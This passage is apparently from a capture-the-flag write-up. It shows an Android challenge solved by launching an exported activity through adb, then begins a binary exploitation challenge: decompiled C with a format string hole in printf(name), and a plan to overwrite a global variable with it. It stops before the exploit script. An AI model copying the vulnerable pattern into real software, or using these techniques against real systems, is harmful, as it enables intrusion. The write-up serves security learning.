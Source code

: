 <pre>
$ adb shell
OnePlus3T:/ $ am start -n com.r4hu1.secretservice/.secretService
Starting: Intent { cmp=com.r4hu1.secretservice/.secretService }
OnePlus3T:/
</pre>

<p>
Flag: <b>inctf{exp0rted_activities_ar3_harmful}</b>
</p>

<hr>
<h3>Binary Exploitation</h3>
<i>Printer</i>

<p>
I solved this challenge after the CTF ended. We get a binary called <a href="chall">chall</a>.
After decompiling it looked somewhat like this:
</p>

<pre>
#include <stdio.h>
#include <fstream.h>

int Overwrite_Me = 0;

int main() {

  printf("Please enter your name : ");
  scanf("%s",name);
  printf("Welcome Mr. ");
  printf(name);

  if (Overwrite_Me == 0xcafe) {
    flag_file = fopen("flag","r");
    if (flag_file == (FILE *)0x0) {
      printf("Flag file not Found.\nContact the administrator.");
    }   
    else {
      char flag[50];
      fgets(flag, 50, flag_file);
      printf("You deserve this.\nHere, take you flag %s",flag);
    }   
  }
  printf("Sorry it is not your day");
  exit(0);
}
</pre>

<p>
We see that this program requires us to change the value of Overwrite_Me
to 0xcafe using the format string vulnerability on printf(name).
</p>

<p>
After analyzing the file with gdb I figured out that the buffer starts 20
offset from the first stack pop. Using that and the padding notation in format
strings, I came up with the following exploit script:
</p>
